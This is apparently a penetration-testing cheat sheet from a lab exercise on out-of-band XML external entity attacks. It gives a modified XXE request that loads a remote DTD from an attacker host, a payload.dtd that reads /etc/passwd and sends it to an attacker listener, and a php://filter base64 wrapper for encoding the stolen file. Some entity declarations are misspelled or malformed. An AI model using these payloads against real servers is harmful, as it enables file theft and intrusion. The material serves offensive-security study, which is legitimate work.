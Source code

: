 # Advanced XML External entities Out of Band (OOB)

## Advanced XXE OOB

### Advanced XML External entities Out of Band (OOB)

* **Payloads (bypass WAF and so on):**

[https://gist.github.com/staaldraad/01415b990939494879b4](https://gist.github.com/staaldraad/01415b990939494879b4) [https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/XXE-Fuzzing.txt)

* **In case we are not able to get a response in the specific tag (char filtering/restriction) we can use a remote Document Type Definition**

### DTD ( D**ocument Type Definition)**

* **DTD is a well structured XML file that definies the structure and the legal element and attributes of a XML file.**

**4 stages attacks :**

```
• Modified XXE XML attack
• Force the Vulnerable XML parser to grab Document Type Definition on our remote attacking machine.
• DTD file contains code to read /etc/passwd
• DTD file contains code to exfil the contents of the data out (on our attacking machine)
```

* **Modified XXE attack :**

```
<!ENTITY %dtd SYSTEM “http://ATTACKER_IP:80/payload.dtd” %dtd;

data=<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY><!ENTITY % dtd SYSTEM "http://10.4.4.175/payload.dtd"> %dtd;]<thp><error> %26send%3b</error></thp>
```



![](../../../.gitbook/assets/f45883b481ec44f5b32ff68132a2b1ae.png)

* **Create the payload.dtd on the attacking machine :**

`root@thp3:~/Documents/thp3/exercices/xxe-oob# cat payload.dtd`

```
<!ENTITIY % file SYSTEM "file:///etc/passwd">
<!ENTITIY % all "<!ENTITY send SYSTEM 'http://10.4.4.175:8888/collect=%file;'>">
%all;
```

![](../../../.gitbook/assets/246a4c86f30b4d468229f2481599a1ba.png)

* **Host the file and set up a listener on the attacker machine :**

![](../../../.gitbook/assets/9cdad36a79a045028f8bfeef5ff83bab.png)

* **Getting in parser error and no output :**

![](../../../.gitbook/assets/e9973a44f94248789b2e508c8445ecb5.png)

*   **php wrappers**&#x20;

    * Modify the payload.dtd to encode the output

    `php://filter/read=convert.base64-encode/resource=file:///etc/passwd`

![](../../../.gitbook/assets/68464add04be423abf3c80b11889eb69.png)

![](../../../.gitbook/assets/1f076232e0844ee2bcb9e86aad7a5fd1.png)

![](../../../.gitbook/assets/cabe44e6ad2247a39dfc79231c653f2f.png)



